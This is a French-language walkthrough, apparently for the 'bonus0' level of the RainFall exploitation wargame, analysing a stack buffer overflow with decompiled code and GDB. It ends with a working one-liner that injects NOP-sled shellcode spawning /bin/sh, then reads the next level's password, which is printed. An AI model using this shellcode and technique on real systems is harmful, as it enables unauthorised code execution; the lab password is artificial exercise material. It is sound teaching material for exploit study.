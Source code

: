 # Bonus0

Voici le code decompilé de ce nouveau programme
```
void p(char *param_1,char *param_2)
{
  char *pcVar1;
  char local_100c [4104];

  puts(param_2);
  read(0,local_100c,0x1000);
  pcVar1 = strchr(local_100c,10);
  *pcVar1 = '\0';
  strncpy(param_1,local_100c,0x14);
  return;
}

void pp(char *param_1)
{
  char cVar1;
  uint uVar2;
  char *pcVar3;
  byte bVar4;
  char local_34 [20];
  char local_20 [20];

  bVar4 = 0;
  p(local_34,&DAT_080486a0);
  p(local_20,&DAT_080486a0);
  strcpy(param_1,local_34);
  uVar2 = 0xffffffff;
  pcVar3 = param_1;
  do {
    if (uVar2 == 0) break;
    uVar2 = uVar2 - 1;
    cVar1 = *pcVar3;
    pcVar3 = pcVar3 + (uint)bVar4 * -2 + 1;
  } while (cVar1 != '\0');
  *(undefined2 *)(param_1 + (~uVar2 - 1)) = 0x20;
  strcat(param_1,local_20);
  return;
}

undefined4 main(void)
{
  char local_3a [54];

  pp(local_3a);
  puts(local_3a);
  return 0;
}
```

Analysons les fonctions en détails :

### Fonction p
Cette fonction affiche un tirete, lit des données de l'entrée standard, et copie les données dans un buffer fourni en paramètre. Elle est vulnérable à un débordement de tampon pour plusieurs raisons :

Taille de lecture fixe et grande : read(0, local_100c, 0x1000) lit 4096 octets, la taille complète du buffer local_100c.
Écrasement potentiel dans strncpy : Même si strncpy limite la copie à 20 caractères (0x14 en hexadécimal), aucun caractère nul n'est explicitement ajouté pour terminer la chaîne, sauf si la chaîne source est plus courte que 20 caractères.

### Fonction pp
Cette fonction orchestre le flux principal des données utilisateur, traitant deux entrées séparées avec la fonction p, puis les concatene dans un buffer passé en paramètre. Les problèmes sont:

Utilisation de strcpy et strcat : Ces fonctions ne vérifient pas la taille du buffer de destination, conduisant directement à des débordements de tampon si les données sources sont trop grandes.

### Fonction main

Cette fonction prépare un buffer de 54 octets et appelle pp pour manipuler les données utilisateur. Elle affiche ensuite le résultat final.

Utilisons GDB pour trouver la faille potentielle.

```
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:	push   %ebp
   0x080485a5 <+1>:	mov    %esp,%ebp
   0x080485a7 <+3>:	and    $0xfffffff0,%esp
   0x080485aa <+6>:	sub    $0x40,%esp
   0x080485ad <+9>:	lea    0x16(%esp),%eax
   0x080485b1 <+13>:	mov    %eax,(%esp)
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    0x16(%esp),%eax
   0x080485bd <+25>:	mov    %eax,(%esp)
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:	mov    $0x0,%eax
   0x080485ca <+38>:	leave
   0x080485cb <+39>:	ret
End of assembler dump.
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXYYYYZZZZ
 -
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXYYYYZZZZ
aaaabbbbccccddddeeeeaaaabbbbccccddddeeee??? aaaabbbbccccddddeeee???

Program received signal SIGSEGV, Segmentation fault.
0x64636363 in ?? ()
(gdb) i r
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff740	0xbffff740
ebp            0x63626262	0x63626262
esi            0x0	0
edi            0x0	0
eip            0x64636363	0x64636363
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
On constate avec le pattern utilisé, qui il y a un segfault. ebp et eip sont effet ecrasé. Le programme a sauté vers 'dccc' (en little endian donc 'cccd' dans le pattern). On en conclut que le programme est redirigé a +9 de la deuxième chaine entrée.

Nous allons mettre notre shellcode dans la premiere chaine de caractère entrée avec un nopsled suffisant. Grâce a un breakpoint apres le premier read, nous trouvons l'adresse du buffer où le programme sera redirigé.

```
Starting program: /home/user/bonus0/bonus0
 -
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXYYYYZZZZ

Breakpoint 2, 0x080484e6 in p ()
(gdb) disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   %ebp
   0x080484b5 <+1>:	mov    %esp,%ebp
   0x080484b7 <+3>:	sub    $0x1018,%esp
   0x080484bd <+9>:	mov    0xc(%ebp),%eax
   0x080484c0 <+12>:	mov    %eax,(%esp)
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
=> 0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
   0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:	mov    %eax,(%esp)
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	movb   $0x0,(%eax)
   0x080484ff <+75>:	lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:	movl   $0x14,0x8(%esp)
   0x0804850d <+89>:	mov    %eax,0x4(%esp)
   0x08048511 <+93>:	mov    0x8(%ebp),%eax
   0x08048514 <+96>:	mov    %eax,(%esp)
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave
   0x0804851d <+105>:	ret
End of assembler dump.
(gdb) x/100x $esp-100
0xbfffe60c:	0xb7e9e0fb	0xb7fd1a20	0x0000000a	0x00000000
0xbfffe61c:	0x00000000	0x0804824c	0x080498e4	0xb7fd28b8
0xbfffe62c:	0xb7e9293c	0xb7fd1a20	0xb7e338d8	0x00000003
0xbfffe63c:	0x00000000	0x00000000	0xb7fd0ff4	0x00000000
0xbfffe64c:	0x00000000	0xbffff688	0xb7ff26b0	0xbffff688
0xbfffe65c:	0x00001000	0xbfffe680	0xb7f0a213	0xb7fd0ff4
0xbfffe66c:	0x080484e6	0x00000000	0xbfffe680	0x00001000
0xbfffe67c:	0x00000000	0x61616161	0x62626262	0x63636363
0xbfffe68c:	0x64646464	0x65656565	0x66666666	0x67676767
0xbfffe69c:	0x68686868	0x69696969	0x6a6a6a6a	0x6b6b6b6b
0xbfffe6ac:	0x6c6c6c6c	0x6d6d6d6d	0x6e6e6e6e	0x6f6f6f6f
0xbfffe6bc:	0x70707070	0x71717171	0x72727272	0x73737373
0xbfffe6cc:	0x74747474	0x75757575	0x76767676	0x77777777 <== nous allons choisir cette adresse
0xbfffe6dc:	0x78787878	0x79797979	0x7a7a7a7a	0x41414141
0xbfffe6ec:	0x42424242	0x43434343	0x44444444	0x45454545
0xbfffe6fc:	0x46464646	0x47474747	0x48484848	0x49494949
0xbfffe70c:	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d
0xbfffe71c:	0x4e4e4e4e	0x4f4f4f4f	0x50505050	0x51515151
0xbfffe72c:	0x52525252	0x53535353	0x54545454	0x55555555
0xbfffe73c:	0x56565656	0x57575757	0x59585858	0x5a595959
0xbfffe74c:	0x0a5a5a5a	0x00000000	0x00000000	0x00000000
0xbfffe75c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe76c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe77c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe78c:	0x00000000	0x00000000	0x00000000	0x00000000
```

Nous pouvons à présent construire notre shellcode, comme suit :
NopeSled + shellcode en 1ere entrée.
Décalage de 9 + addresse du 1er buffer + 7 pour eviter que la chaîne ne se termine (+ de 20 caractères)

```
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xcc\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
 -
 -
????????????????????AAAAAAAAA????BBBBBBB??? AAAAAAAAA????BBBBBBB???
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

